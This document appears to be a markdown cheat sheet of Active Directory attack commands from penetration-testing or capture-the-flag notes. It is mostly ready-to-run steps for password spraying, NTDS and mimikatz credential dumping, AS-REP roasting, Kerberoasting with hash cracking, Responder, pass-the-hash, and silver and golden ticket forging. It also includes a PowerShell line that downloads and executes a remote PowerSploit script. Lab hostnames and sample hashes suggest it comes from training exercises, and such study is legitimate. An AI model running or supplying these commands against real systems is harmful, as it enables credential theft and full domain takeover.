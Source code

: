 ```toc
	title: "## Table of Contents"
```

### Active Directory Attacks External links
Payload all (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md)
Hacktricks (https://book.hacktricks.xyz/windows/active-directory-methodology)
***

### Password spraying

Password spraying refers to the attack method that takes a large number of usernames and loops them with a single password.

##### Username bruteforce
```bash 
./kerbrute_linux_amd64 userenum -d domain.local --dc 10.10.10.10 usernames.txt
```

##### Password bruteforce
```bash
./kerbrute_linux_amd64 bruteuser -d domain.local --dc 10.10.10.10 rockyou.txt username
```
    
##### Password spray
```bash

# Linux
./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt Password123
./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt rockyou.txt
./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt '123456' -v --delay 100 -o kerb

# Windows
Rebeus.exe brute /password:Password1 /noticket
```
***

### Dumping AD Domain Credentials

You will need the following files to extract the ntds :

-   NTDS.dit file
-   SYSTEM hive (`C:\Windows\System32\SYSTEM`)

##### Extract the NTDS.DIT file [Required Credentials]
```bash
secretsdump vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@10.10.100.15
````

##### Crack the password with system.hive and ntds.dit
```bash
python3 /opt/impacket/examples/secretsdump.py -system system.hive -ntds ntds.dit LOCAL > hashes3.txt
```

### Passwords in SYSVOL & Group Policy Preferences
```bash 
findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml
```

### Cached Credentials
```bash
mimikatz.exe

priviledge::debug
sekurlsa::logonpasswords
sekurlsa::tickets
```
***

### AS-REP Roasting Attack
```bash
# Linux
# Get TGT with a valid user
GetNPUsers.py spookysec.local/<user> --dc-ip <ip>

# Get TGT with a no password
GetNPUsers.py spookysec.local/<user> -no-pass

# Crack the TGT
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

# Windows
Rebeus.exe asreproast

```
***
### Kerboasting Attack
```bash
# Linux
# Checking for service principal accounts
GetUserSPNs.py -dc-ip 192.168.235.134 ADLAB.local/bob:p@ssw0rD

# Request the hash 
GetUserSPNs.py -dc-ip 192.168.235.134 ADLAB.local/bob:p@ssw0rD -request

# Windows
Rebeus.exe kerboast

# Crack the hash
hashcat -m 13100 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --force --show


```
***

### Responder Attack
```bash
# Start the responder
python Responder.py -I tun0 -rdvw

```
***

### GET Domain admin password (Priviledge esclation)
```bash
IEX(New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Exfiltration/Get-GPPPassword.ps1')

Get-GPPPassword
```

Having issues downloading PowerSploit in PowerShell from **TLS errors**? Try these 
```bash

[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls, [Net.SecurityProtocolType]::Tls11, [Net.SecurityProtocolType]::Tls12, [Net.SecurityProtocolType]::Ssl3 

[Net.ServicePointManager]::SecurityProtocol = "Tls, Tls11, Tls12, Ssl3"
```
***

### Pass the hash (Priviledge esclation)
Only **NTLM Authentication**
```bash
psexec.py Administrator@10.10.29.111 -hashes aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc

# Windows
Invoke-Mimikatz -Command '"sekurlsa::pth /user:username /domain:domain.tld /ntlm:NTLMhash /run:powershell.exe"' 
```

### Overpass the hash (Priviledge esclation)
This could be especially **useful in networks where NTLM protocol is disabled** and only **Kerberos is allowed** as authentication protocol.
```bash
python getTGT.py jurassic.park/velociraptor -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7
export KRB5CCNAME=/root/impacket-examples/velociraptor.ccache
python psexec.py jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass

# Windows - mimikatz.exe 
priviledge::debug

# Extract all .kirbi tickets into the directory 
sekurlsa::tickets /export

# Pass the ticket 
kerberos::ptt <kirbi ticket file>

# Validate the ticket
klist
```

***
### Silver ticket
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets
https://stealthbits.com/blog/impersonating-service-accounts-with-silver-tickets/

```bash
# In Linux
sudo ntpdate 10.10.10.248
python3 getST.py -spn WWW/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int$ -hash hash:hash
export KRB5CCNAME=Administrator.ccache
python psexec.py intelligence.htb/Administrator@dc.intelligence.htb -k -no-pass

# In windows (mimikatz)
kerberos::golden /sid:S-1-5-21-4172452648-1021989953-2368502130-1105 /domain:offense.local /ptt /id:1155 /target:dc-mantvydas.offense.local /service:http /rc4:a87f3a337d73085c45f9416be5787d86 /user:beningnadmin
```


### SID (For Valid User)
```bash
impacket-lookupsid vulnnet-rst.local/guest@10.10.111.177
impacket-lookupsid anonymous@10.10.117.62 | tee users.txt
```
***

### Golden Ticket
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets
https://stealthbits.com/blog/complete-domain-compromise-with-golden-tickets/

**Note:-** Required a **Admin Privilege**
Kerberos Ticket Granting Tickets (TGT) that are used to authenticate users with Kerberos. TGTs are used when requesting Ticket Granting Service (TGS) tickets, which means a forged TGT can get us any TGS ticket - hence it's golden.

**Golden Ticket Requirements:**  
- Domain Name [AD PowerShell module: (Get-ADDomain).DNSRoot]  
- Domain SID  [AD PowerShell module: (Get-ADDomain).DomainSID.Value]  
- Domain KRBTGT Account NTLM password hash  
	```bash 
	# In mimikatz
	lsadump::lsa /inject /name:krbtgt
	```
- UserID for impersonation.

**Generate golden ticket** (Automatically gets injected in current logon session's):
```bash
# In mimikatz
kerberos::golden /domain:offense.local /sid:<user Sid> /rc4:<krbtgt NTML Hash> /user:newAdmin /id:500 /ptt
```

Checking if the **ticket got created**:
```bash
klist
```

**Import another user c share**
```bash
pushd \\<user>\c$
```
